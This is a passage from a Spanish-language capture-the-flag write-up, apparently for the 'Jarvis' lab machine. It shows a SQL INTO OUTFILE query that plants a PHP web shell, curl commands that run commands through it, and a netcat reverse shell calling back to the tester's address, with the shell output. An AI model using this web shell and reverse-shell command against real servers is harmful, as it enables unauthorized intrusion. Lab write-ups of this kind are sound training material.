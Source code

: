 ![Untitled](/assets/images/Jarvis/Untitled%207.png#center)

# **GANANDO ACCESO AL SISTEMA**

A partir de aquí la intrusión al sistema es pan comido, os dejo aquí un link donde explica paso a paso como hacerlo: [Link](https://www.eninsoft.com/obtener-una-shell-del-s-o-via-mysql-o-phpmyadmin/)

1º ejecutamos esta sintaxis SQL y le damos a go: 

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/RCE.php"`

2º Accedemos a la pagina que acabamos de crear:

http://10.10.10.143/RCE.php

3º A traves de la variable cmd, le decimos que comando queremos ejecutar

```bash
❯ curl -s -X get "http://10.10.10.143/RCE.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ya solo tendriamos que ponernos en escucha por un puerto en nuestra maquina, y ejecutar una reverse shell en la web:

```bash
❯ curl -s -X get "http://10.10.10.143/RCE.php?cmd=nc+-e+/bin/sh+10.10.16.198+443"

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.143] 54394
hostname;whoami
jarvis
www-data
```
